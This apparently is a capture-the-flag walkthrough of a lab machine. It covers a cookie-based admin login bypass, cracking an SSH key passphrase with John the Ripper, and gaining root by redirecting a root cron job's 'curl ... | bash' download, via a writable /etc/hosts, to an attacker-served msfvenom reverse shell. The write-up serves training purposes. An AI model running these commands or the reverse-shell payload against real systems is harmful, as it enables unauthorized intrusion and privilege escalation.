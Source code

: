 > ssh cracking

# Ports

* **80** : Golang net/http server
* **22** : OpenSSH 7.6p1

### Port 80, 22 are used for exploiting

# 80
1. We can get the source code for the password manager from the downloads page. Inspecting the shows that the password manager uses rot47 cypher to encrypt passwords.
2. `ffuf` gave us /admin and the page contains a login form.
3. `main.js` code for the login form says that the code checks for response from /api/login and assigns a cookie by using the `Cookie.set()` statement in main.js.
4. So we try to run the same statement in our browser console and check if a cookie is created for our session. `Cookie.set("hello")`
5. Reloading the page logs us in.

# 22
1. OpenSSH version 7.6

# EXPLOITATION

Logging into the /admin page shows a message for `james` listing his ssh private key.
We can use this private key to login by `ssh -i james_key james@10.10.10.10`
Which asks for a passphrase. So we need to crack this ssh private key for the password.

## John The Ripper
1. To crack the passphrase first we need to convert the private key to a format understood by `john`
`./ssh2john.py james_key > james_key_john`
2. Cracking using john
`./john james_key_john --wordlist=/usr/share/wordlist/rockyou.txt`
3. We obtain passphrase as `james13`.

We can now login as `james` user via ssh.

# Actions in the low privilege shell
1. In /home/james we can see a `todo.txt` which talks about an automated build script that is running on the system.
2. `cat /etc/crontab` shows the task `curl overpass.thm/downloads/src/buildscript.sh | bash` running as root user.
3. We can check the /etc/hosts to see that overpass.thm is pointing to  `127.0.0.1`. So if we can modify this ip address to ours we could execute malicious script to gain root.
4. `ls -la /etc/hosts` shows it is writable by the user. So we point `overpass.thm` to our attacker machine ip address and start a python server in our machine at port 80.
`python -m http.server 80` (attacker machine)
5. Now we create the /downloads/src/ directory structure to serve our modified `buildscript.sh`
6. So at first we create bash reverse shell using msfvenom
`msfvenom -p cmd/unix/reverse_bash LHOST=10.18.10.10 LPORT=4444`
8. The output from msfvenom is copied to our `buildscript.sh`
9. We set up a listener using netcat `nc -nvlp 4444`
10. We get the connection in a few seconds
  
We are now root.
